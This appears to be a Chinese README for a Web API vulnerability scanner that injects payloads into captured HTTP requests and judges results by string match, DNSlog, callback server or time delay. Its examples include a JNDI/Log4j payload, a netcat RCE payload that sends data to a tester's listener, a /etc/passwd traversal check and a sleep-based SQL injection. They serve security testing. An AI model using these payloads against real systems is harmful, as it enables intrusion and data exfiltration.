


# Web-API-Security-Detection-System
## Overall Architecture


1、接口收集器负责接收需要测试的 Web API 接口，并将其导入内存供解析器检索和解析。

2、解析器负责解析 Web API 接口数据包，即解析 HTTP 数据包并将其存储到系统实现的类对象中。

3、生成器负责接收载荷样本，并将其导入内存供测试器检索和注入到 HTTP 数据包中。

4、测试器根据安全测试人员设置的注入方式，将载荷注入 HTTP 测试数据包中，重新构造数据包，发送 HTTP 请求，最后将响应结果检索并存储到内存中供判断器进行判断。

5、判断器负责根据安全测试人员设置的判断方法判断请求结果，以载荷测试的成功或失败为依据确定 Web API 接口是否存在安全漏洞。

## Tips

### Proxy


Use Proxy Module：获取Burp Suite的proxy面板的Web API

Local File：本地批量导入Web API

### Input


Payload options：批量导入载荷，但还未参与系统运作，暂不支持

### judge


#### String Judge：

字符串判断要求安全测试人员提供一个特征标识符（支持正则表达式）。系统获取消息的响应数据包，然后通过正则表达式匹配来判断安全测试人员提供的特征标识符是否出现在响应消息中。如果是，测试被认为是成功的；否则，测试被认为是失败的。

①给定判断字符串,比如检测CVE-2021-41773漏洞，给定特征字符串".\*root.\*",判断是否读取到/etc/passwd文件


②给定载荷注入方式，并选择字符串判断方式


③点击start按钮，点击测试成功的报文的返回包，可以看到确实有"root"的特征字符串出现


#### Dnslog Judge

DNSlog判断需要安全测试人员提供查询DNSlog结果的地址，Web API 安全检测系统目前只支持“http://ceye.io/”平台查询。选择DNSlog判断时需要给出ceye平台提供给个人的Ceye标识符和Ceye API Token，并在载荷中使用${ceyeDNSDomain}表示Ceye标识符替换的位置，之后系统在对含有向ceye平台指定的Ceye标识符发起DNSlog查询的攻击载荷的报文发起请求时，会使用安全测试人员所提供的Token向Ceye平台的查询接口发起查询请求，如果存在本报文的记录，则说明测试成功，否则测试失败。

①登录CCeye平台，获取标识符和Token，输出到指定位置


②测试JNDI注入，使用载荷${jndi:ldap://${ceyeDnsDomain}，其中系统将把${ceyeDnsDomain}替换成fpz8if.ceye.io（测试人员提供的标识符），并携带报文的ID，同时选择dnslog判断方式


③点击start按钮，查看ceye平台和测试成功的报文的id，可以发现系统测试每个报文时会附上每个报文的id，以来区分是哪个报文测试成功，并且系统会使用测试人员提供的token去ceye平台上获取请求结果。


#### Server Judge

安全测试人员需要提供 serverIP、serverPort、fileNAME 和 filePORT，使用 "${serverIp}" 和 "${serverPort}" 在载荷中表示要替换为服务器 IP 和服务器端口的位置。需要在指定服务器（serverIP）上运行两个脚本：第一个脚本在指定端口（serverPort）上建立监听器，并将接收到的信息保存到指定的文件（fileNAME）中。

```
import asyncio

# 定义一个IP地址和端口号
host = "0.0.0.0" # 监听所有网卡
port = 9000  #serverPort

# 定义一个处理函数，用于接收数据并将其存储到文件中
async def handle_client(reader, writer):
    # 读取数据
    data = await reader.read(1024)
    if not data:
        return
    
    # 将接收到的数据写入文件
    with open('received_data.txt', 'a') as f:  #fileNAME
        f.write(str(writer.get_extra_info('peername')) + ': ' + data.decode() + '\n')
    
    # 关闭连接
    writer.close()

# 启动服务器并接收连接
async def main():
    server = await asyncio.start_server(handle_client, host, port)
    async with server:
        await server.serve_forever()

# 开始运行程序
asyncio.run(main())
```

第二个脚本使用 Python 的 httpserver 在文件（fileNAME）所在位置的指定文件端口（filePORT）上打开一个 Web 服务。

```
from http.server import HTTPServer, SimpleHTTPRequestHandler

class MyRequestHandler(SimpleHTTPRequestHandler):
    
    # 重写do_GET方法，在请求某个资源时进行权限控制
    def do_GET(self):
        if self.path != '/received_data.txt':
            self.send_error(404, "File not found")
        else:
            return super().do_GET()

# 指定监听地址和端口号
host = ''
port = 8000 #filePORT

# 创建HTTP服务器，并指定请求处理函数
httpd = HTTPServer((host, port), MyRequestHandler)

# 启动HTTP服务器
print(f"Server started on http://{host}:{port}")
httpd.serve_forever()
```

如果载荷攻击成功，目标系统会向预先指定服务器和指定端口发送带有编号的信息。同时Web API 安全检测系统会向“http://serverIP:filePORT/fileNAME”发起请求，获取文件内容，并搜索文件内容是否存在某个报文的编号，如果存在则表明测试成功，否则表明测试失败。

①首先在服务器上运行上述两段代码，并在服务器判断方法中输入serverIP、serverPORT、fileNAME、filePORT，如下所示


②测试RCE漏洞，使用载荷echo ${replace} | nc64.exe ${serverIp} ${serverPort}，其中系统会替换${replace}为每个包的ID，才能区分不同报文,${serverIp}、${serverPort}替换为192.168.28.128、9000。同时选择服务器判断方式。


③点击Start按钮，可以看到1774649420的报文测试成功。


#### Time Delay Judge

Time Delay判断需要安全测试人员提供延迟时间长度，系统在对每个报文进行请求时均会记录请求时间，如果某个载荷测试成功后会让目标系统延迟指定时间长度的响应，则报文的请求时间会延长，此时若系统比对到请求时间大于指定的延迟时间，则表明测试成功，否则测试失败。

①设置好时间延迟时间为5s



②测试SQL注入，载荷为""-1 or sleep(5)"，同时选择Time Delay判断方式。



③点击Start按钮进行测试，可以看到ID为233123283的报文的响应时间超过了5s，存在SQL注入漏洞


### excute


最上面是已导入的Web APU接口展示面板，中间部分可以看到每个报文的内容，下面部分可以选择判断方式，并进行载荷注入，Tips框里面是具体的用法，如下：

```
Add功能：  添加字段，不覆盖已有同名字段
    Header位置：  添加字段到请求头
        Inner内部插：{
            解释：添加到某个字段内，key前加 某个字段+":" 即可表示加在哪个字段里面。如果未存在外部字段，重新构造字段加入head。最多支持两层"key1:key2"
            key值格式： "外层字段名:内层字段名"
            value值格式：无
            例子：key值="Cookie:name",value值="456"，此时"Cookie:name"被分割成Cookie和name
            Cookie: name=123 
            修改成
            Cookie: name=123(保留)
            Cookie:name=456
        }
        Outer外部插：{
            解释：直接添加到头的最尾部,距离Body最近的位置
            key值格式： 无
            value值格式：无
            例子：key值="Cookie:name",value值="456",此时"Cookie:name"是整个的字段
            Cookie: name=123 
            修改成
            Cookie: name=123(保留)
            Cookie:name:456
        }
    Path位置：添加value值到路径中
        Inner：无
        Outer：无
        {
            解释：在Add功能中，以路径/a/b/c/为例，value注入的位置被划分为0 /a 1 /b 2 /c 3，key值必须为数字，表示插入到路径的哪个地方，
                 同时如果key值小于0则默认加在路径最前面，超过最大位置数的，默认加在路径最后面
            key值格式：必须数字
            value值格式：无
            例子：key值="2",value值="d"
            /a/b/c/
            修改成
            /a/b/d/c
        }
    Param位置：添加字段到Get参数
        Inner头插：{
            解释：直接添加字段到参数的最前面
            key值格式：无
            value值格式：无
            例子： key值="id1",value值="3"
            /a/b/c?id1=1&id2=2
            修改成
            /a/b/c?id1=3&id1=1&id2=2
        }
        Outer尾插：{
            解释：直接添加字段到参数的最后面
            key值格式：无
            value值格式：无
            例子： key值="id1",value值="3"
            /a/b/c?id1=1&id2=2
            修改成
            /a/b/c?id1=1&id2=2&id1=3
        }
    Body位置：支持application/x-www-form-urlencoded、multipart/form-data,application/json、application/xml和text/xml仅被Clean功能支持
        application/x-www-form-urlencoded： url编码，默认是参数结构 a=b&c=d
            Inner头插：{
                解释：类似GET参数插入，直接添加到参数的最前面
                key值格式：无
                value值格式：无
                例子： key值="id1",value值="3"
                id1=1&id2=2
                修改成
                id1=3&id1=1&id2=2
            }
            Outer尾插：{
                解释：类似GET参数插入，直接添加到参数的最后面
                key值格式：无
                value值格式：无
                例子： key值="id1",value值="3"
                id1=1&id2=2
                修改成
                id1=1&id2=2&id1=3
            }
        multipart/form-data： 支持文件格式、表格格式(用户名和密码)
            文件格式：
                Inner头插：{
                    解释：添加到数据序列最前面
                    key值格式： name:filename:Content-Type
                    value值格式：无
                    例子： key值="file1:file2:text/plain",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file2"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                }
                Outer尾插：{
                    解释：添加到数据序列最后面
                    key值格式： name:filename:Content-Type
                    value值格式：无
                    例子： key值="file1:file2:text/plain",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file2"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            表格格式：
                Inner头插：{
                    解释：添加到数据序列最前面
                    key值格式： name:null(不变):null(不变)
                    value值格式：无
                    例子： key值="name1:null:null",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                }
                Outer尾插：{
                    解释：添加到数据序列最后面
                    key值格式： name:null(不变):null(不变)
                    value值格式：无
                    例子： key值="file1:null:null",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                }
Cover功能：  覆盖同名字段
    Header位置：  覆盖请求头同名字段，若字段不存在，则默认添加上去
        Inner内部插：{
            解释：覆盖到某个外部字段内的同名内部字段，若外部字段活内部字段不存在，则添加上去。key前加 某个字段+":" 即可表示加在哪个外部字段里面。
                 如果未存在外部字段，重新构造字段加入head。最多支持两层"key1:key2"
            key值格式： "外层字段名:内层字段名"
            value值格式：无
            例子：key值="Cookie:name",value值="456"，此时"Cookie:name"被分割成Cookie和name
            Cookie: name=123 
            修改成
            Cookie: name=456
        }
        Outer外部插：{
            解释：直接添加到头的最尾部,距离Body最近的位置
            key值格式： 无
            value值格式：无
            例子：key值="Cookie:name",value值="456",此时"Cookie:name"是整个的字段
            Cookie: name=123 
            修改成
            Cookie: name=123
            Cookie:name:456
        }
    Path位置：   覆盖路径的某个子路径，由key指定
        Inner：无
        Outer：无
        {
            解释：在Cover功能中，以路径/a/b/c/为例，value注入的位置被划分为/a(0) /b(1) /c(2)，key值必须为数字，表示覆盖路径的哪个部分，
                 同时如果key值小于0则默认覆盖路径最前面部分，比如0位置，超过最大位置数的，默认覆盖路径最后面部分，比如2位置
            key值格式：必须数字
            value值格式：无
            例子：key值="2",value值="d"
            /a/b/c/
            修改成
            /a/d/c
        }
    Param位置：   覆盖Get参数同名字段 
        Inner：无
        Outer：无
        {
            解释：直接覆盖同名字段，若不存在则默认加在参数的最后面
            key值格式：无
            value值格式：无
            例子： key值="id1",value值="3"
            /a/b/c?id1=1&id2=2
            修改成
            /a/b/c?id1=3&id2=2
        }
    Body位置：   支持application/x-www-form-urlencoded、multipart/form-data
        application/x-www-form-urlencoded：
            Inner：无
            Outer：无
            {
                解释：类似GET参数覆盖，覆盖同名字段，若不存在，则添加到参数的最后面
                key值格式：无
                value值格式：无
                例子： key值="id1",value值="3"
                id1=1&id2=2
                修改成
                id1=3&id2=2
            }
        multipart/form-data：
            文件格式：
                Inner：无
                Outer：无
                {
                    解释：覆盖同name、同filename、同Content-type的数据段，若无匹配则添加到数据序列最后面
                    key值格式： name:filename:Content-Type
                    value值格式：无
                    例子： key值="file:xxx.txt:text/plain",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            表格格式：
                Inner：无
                Outer：无
                {
                    解释：覆盖同name的数据段，若不存在则添加到数据序列最后面
                    key值格式： name:null(不变):null(不变)
                    value值格式：无
                    例子： key值="name1:null:null",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    3
                    -----------------------------195784179425668763703025983801
                }
Clean功能：  清除所有已有字段，再重新添加新的字段
    Header位置： 无
    Path位置：
        Inner：无
        Outer：无
        {
            解释： 清除整个路径，重新赋值尾 "/"+value
            key值格式：忽略
            value值格式：无
            例子：value值="d"
            /a/b/c/
            修改成
            /d
        }
    Param位置：
        Inner：无
        Outer：无
        {
            解释： 清除所有参数，赋值为 key+"="+"value"
            key值格式：无
            value值格式：无
            例子： key值="id3",value值="3"
            /a/b/c?id1=1&id2=2
            修改成
            /a/b/c?id3=3
        }
    Body位置： 支持application/x-www-form-urlencoded、multipart/form-data、application/json、application/xml 和 text/xml
        application/x-www-form-urlencoded:
            Inner：无
            Outer：无
            {
                解释：清除所有参数，重新赋值为 key+"="+value
                key值格式：无
                value值格式：无
                例子： key值="id3",value值="3"
                id1=1&id2=2
                修改成
                id3=3
            }
        multipart/form-data:
            文件格式：
                Inner：无
                Outer：无
                {
                    解释：清除所有数据段，重新赋值新字段
                    key值格式： name:filename:Content-Type
                    value值格式：无
                    例子： key值="file1:file1.txt:text/plain",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file"; filename="xxx.txt"
                    Content-Type: text/plain

                    xxxxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="file1"; filename="file1.txt"
                    Content-Type: text/plain

                    3
                    -----------------------------195784179425668763703025983801
                }
            表格格式：
                Inner：无
                Outer：无
                {
                    解释：清除所有数据段，重新赋值新字段
                    key值格式： name:null(不变):null(不变)
                    value值格式：无
                    例子： key值="name2:null:null",value值="3"
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name1"

                    xxxx
                    -----------------------------195784179425668763703025983801
                    修改成
                    -----------------------------195784179425668763703025983801
                    Content-Disposition: form-data; name="name2"

                    3
                    -----------------------------195784179425668763703025983801
                }
        application/json:
            Inner：无
            Outer：无
            {
                解释：清除整个JSON数据，赋值为value
                key值格式： 忽略
                value值格式：json格式数据
                例子：无
            }
        application/xml 和 text/xml:
            Inner：无
            Outer：无
            {
                解释：清除整个xml数据，赋值为value
                key值格式： 忽略
                value值格式：xml格式数据
                例子：无
            }
```

